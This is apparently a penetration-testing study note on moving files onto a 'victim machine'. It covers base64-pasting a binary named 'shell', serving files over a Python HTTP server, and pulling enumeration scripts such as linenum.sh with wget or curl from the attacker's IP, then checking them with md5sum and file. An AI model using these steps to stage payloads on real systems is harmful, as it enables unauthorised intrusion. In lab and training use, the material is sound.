 ## Transferring Files

#### Using Base64 encoding
- Sometimes it may not be possible to transfer a file because a firewall might block the connection or don't let us download files.
- Encode the file to `base64` format and paste it on the victim machine and then decode it.
- To transfer a file called shell from our machine to victim machine
    - Our machine:
    ```bash
    $ base64 shell -w 0
    f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
    ```
    - Paste this using echo and decode it and put the output in a file called shell.
    ```bash
    user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
    ```
#### Using Wget or cURL
- On our machine go to the dir that contains the file that you want to transfer to the victim machine and run a `python http server`
```bash
$ cd /tmp
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
- On the victim machine run wget
```sh
$ wget http://10.10.10.14:8000/some_file.sh
...SNIP...
Saving to: 'some_file.sh'

some_file.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'some_file.sh' saved [14337/14337]
```
- Here the IP and port numbers specified are our attack machine's.
<br>

- If there is no wget, user `cURL`
```sh
$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

#### Using scp if you already have ssh
```sh
$ scp linenum.sh user@remotehost:/tmp/linenum.sh
user@remotehost's password: *********
linenum.sh
```
### Validating File Transfers 
1. Using MD5 hash
- To validate that the `base64` or other files you transfered are not broken, use `md5` hash on both your and victim's machine.
```sh
$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```
2. Using file
- You can validate the format of a file
```sh
$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```
- An ELF format means success